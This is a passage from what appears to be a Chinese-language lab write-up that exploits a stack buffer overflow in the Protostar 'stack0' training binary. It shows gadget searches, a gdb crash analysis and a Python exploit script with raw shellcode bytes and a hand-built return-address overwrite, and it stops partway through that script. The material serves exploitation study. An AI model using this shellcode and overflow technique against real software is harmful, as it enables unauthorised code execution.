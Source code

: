 ```
 0x08048441 -> mov ebp, esp; pop ebp; ret ; 
 0x080484a6 -> pop esi; pop edi; pop ebp; ret ; 
---------------------end---------------------

```

里面没有找到jmp esp,不理解为什么不搜索系统加载到内存的动态链接库so文件里的jmp esp，暂且不管这个问题

没有找到jmp esp,rop gadget这个功能主要是搜索用来获得ret2libc构造链中的子语句的功能，特点是每个gadget都是以ret结尾的一条或几条汇编小指令

换工具edb-debugger,kali自带，将stack0拖入edb,快捷键ctrl+o,或者从plugins选项中选择opcodesearcher工具(里面也有roptool,功能类似上面的rop-tool工具的功能,edb-debugger中的toptool功能可以看到系统内存已经加载的动态链接库列表，而上面freebuf中提到的rop-tool不能)

搜到jmp esp地址如下（由于本机kali为64位，所以显示成下图中样式，取其中32位的地址即可）

![p4](http://drops.javaweb.org/uploads/images/9bdaedf89a5c0b2e088db3ab8b7787788e229f8e.jpg)

取其中的0xf773813b,替换exploit.py中jmp_esp="\x3b\x81\x73\xf7",上图中选择的/lib/i386-linux-gnu/ld-2.19.so应该是随着操作系统启动加载到系统内存中的可用动态链接库文件

运行exploit.py,结果依然不行，这个jmp_esp还是没有被执行，可能是没有找到这个地址，不理解，暂且不管这个问题

```
python exploit.py
----------------outpout:------------------
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�A>4P���do<$3ɱ1U�da��N>ʪ���SF
         91!z�ik\Dz��5�
you have changed the 'modified' variable
Segmentation fault (core dumped)
┌─[root@x0day] - [~/桌面] - [Mon Jun 06, 07:53]
└─[$] <> gdb -q -c core 
[New LWP 7435]
Core was generated by `./stack0'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0xf773813b in ?? ()
(gdb) disas 0xf773813b
No function contains specified address.
-----------------end----------------------

```

无法有效利用jmp esp的方法,直接在main_ret位置上填充紧跟其后的shellcode的开始的地址，也即address(main_ret位置在内存中的地址0xffffd4fc)+0x4的结果:

shellcode_addr=0xffffd500

由于有00，在调用gets时系统复制从终端输入的超长字符串会提前停止，所以不能取0xffffd500,取成0xffffd501,在原来shellcode前面加一个nop(\x90),重新构造输入链：

"a"*80+"\x01\xd5\ff\xff"+"\x90"+shellcode

将exploit.py中jmp_esp替换为jmp_esp="\x01\xd5\xff\xff",并在shellcode前面加一个"\x90",新的exploit.py如下:

```
------------------------exploit.py-------------------------------
#/usr/bin/python
import os
import sys
buf =  "\x90"
buf += "\xba\x31\x6f\x3c\x05\xd9\xca\xd9\x74\x24\xf4\x5d\x33"
buf += "\xc9\xb1\x12\x31\x55\x12\x83\xc5\x04\x03\x64\x61\xde"
buf += "\xf0\xce\x4c\xe1\x91\xc7\xf6\x84\xd0\xc7\x4e\x3e\xca"
buf += "\xaa\x7f\x89\x99\x16\xc1\x53\xec\x51\xce\x66\x46\x0d"
buf += "\xba\x41\x3e\x34\x50\x90\xe1\x2c\xa4\xca\x12\xb5\xee"
buf += "\x65\x64\x0c\xec\x89\x71\x39\x31\x21\x7a\xaf\xe0\x7a"
buf += "\xf4\xc9\x69\x6b\x5c\x7f\x44\xd3\x6f\x7a\xc1\xbd\x35"
buf += "\x8b\xf4\xbe\x2c"

jmp_esp="\x01\xd5\xff\xff"
```